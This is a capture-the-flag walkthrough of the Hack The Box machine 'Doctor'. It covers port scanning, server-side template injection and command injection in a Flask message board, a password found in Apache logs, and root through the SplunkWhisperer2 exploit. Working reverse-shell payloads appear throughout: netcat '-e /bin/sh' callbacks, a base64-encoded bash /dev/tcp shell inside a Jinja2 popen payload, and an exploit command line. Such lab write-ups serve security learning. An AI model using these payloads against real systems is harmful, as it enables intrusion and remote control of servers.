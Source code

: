 ![](doctor_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Scanning

## Nmap

`ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.209 | grep open | awk -F / '{print $1}' ORS=',') echo $ports && nmap -p$ports -sV -sC -v -T4 -oA scans/nmap.full 10.10.10.209`
```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
```
## Splunk

**[Splunk](https://www.splunk.com/) :** software for searching, monitoring, and analyzing machine-generated big data via a Web-style interface.

**Goto :** https://10.10.10.209:8089/ `Splunk Atom Feed: splunkd`

**Access :** Denied, need creds to access `services`

**Version :** server has Splunk build: 8.0.5 

**vulnerability :** [Abusing-Splunk-Forwarders](https://medium.com/@airman604/splunk-universal-forwarder-hijacking-5899c3e0e6b2)

**Exploit :** [PySplunkWhisperer](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2)

*Exploit requires creds*

## Web_server

- going through webserver on port `80` first thing i notice is a email address,

	  info@doctors.htb
	 
- I add domain `doctors.htb` from that email to `/etc/hosts` and check i there is any difference.
- **goto** `doctors.htb` redirected to `http://doctors.htb/login?next=%2F` and land on a login page .

### Enumerating doctors.htb

- try default logins or some injection on login page but got nothing .
- in the top right corner there is a Register button .

**Note :** registering a new account only valid for 20 minutes as the domain shows this message after registering account
```
Your account has been created, with a time limit of twenty minutes! 
```
- after login i check pages source codes and found a comment

	  <!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->
	  
- **goto** `http://doctors.htb/archive` got blank page viewing source got `<title>Archive</title>`

- this domain `Doctor Secure Messaging` all about posting staff messages.
- as a logged in user i can post a message, so i create a new message.
- my post is on `http://doctors.htb/post/2` 
- this shows `post/2` but this is my first post, i check first post and this is a post from admin and nothing interested here.
- I also check `/archive` source again and the `<title>` tag now updated with my post title
- try injections on `http://doctors.htb/post/new` page
- i use different injection payloads from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- found 2 successful injections in `http://doctors.htb/post/new`
    - **CSRF** in `Content` field
    - **SSTI** in `title` field

*I learn Both Attacks from scratch*

*some resources that help me*

**Server-Side Template Injection**

https://www.youtube.com/watch?v=3cT0uE7Y87s

https://portswigger.net/research/server-side-template-injection

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

**Cross-site request forgery**

https://www.youtube.com/watch?v=vRBihr41JTo

https://portswigger.net/web-security/csrf


#### CSRF Test

**Payload** `<a href="http://tun0/test">TestURL</a>`

**Response** `10.10.10.209 - - [05/Nov/2020 15:24:15] "GET /test HTTP/1.1" 200 -`

#### SSTI Test

**Payload** 

```py
{{ 7 * 7 }}
```

**Response** in `/archive` page source code `<title>` tag updated as `49`


# User Exploit

*Both injection give shell in the box*

## with CSRF

**Payload :** `http://tun0/$(nc.traditional$IFS-e/bin/sh$IFS'tun0'$IFS'4141')`

- load the payload in Content field and post the message and shell pop in netcat .
- spaces in the code are a problem for the execution of the code,
- thats why i use `$IFS` as this is a space-replacer for Linux Bash .
	- [IFS](https://mywiki.wooledge.org/IFS) : 
	variable is used in shells (Bourne, POSIX, ksh, bash) as the input field separator
	The default value of IFS is space, tab, newline. 

## with SSTI

**Payload :**

```py
{% with ssti = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE1LjcxLzQxNDEgMD4mMSc= | base64 -d | bash")["read"]() %} %257B%257Bssti%257D%257D {% endwith %}
```

got that working payload from : https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-popen-without-guessing-the-offset

- load the payload in title field and post the message than go to `/archive` execute the payload and pop shell in netcat .

### Enumerating web@doctor

- `cat /etc/passwd` shows two users

	  shaun:x:1002:1002:shaun,,,:/home/shaun:/bin/bash
	  splunk:x:1003:1003:Splunk Server:/opt/splunkforwarder:/bin/bash

- linpeas script password string in apache2 logs

	  /var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"

- got password, i tried that password for both users and worked for user `shaun`
	`shaun:Guitar123`

```
shaun@doctor:~$ cat user.txt
cat user.txt
aaaab5f8************************
```

# Local Enumeration

- I already found a Auth RCE for [Splunk](README.md#splunk) so first i try to login with these cred in splunk on port 8089
- login successful and i run that [exploit](exploit/SplunkWhisperer2_RCE.py)

# Root Privesc

## SplunkWhisperer RCE

`python SplunkWhisperer2_RCE.py --host 10.10.10.209 --username shaun --password Guitar123 --lhost tun0 --payload 'nc.traditional -e '/bin/sh' tun0 4242'`

- open netcat listener
- The exploit is straightforward and get a direct rootshell on nc listener .
```
root@doctor:/root# cat root.txt
cat root.txt
e03b774e************************
```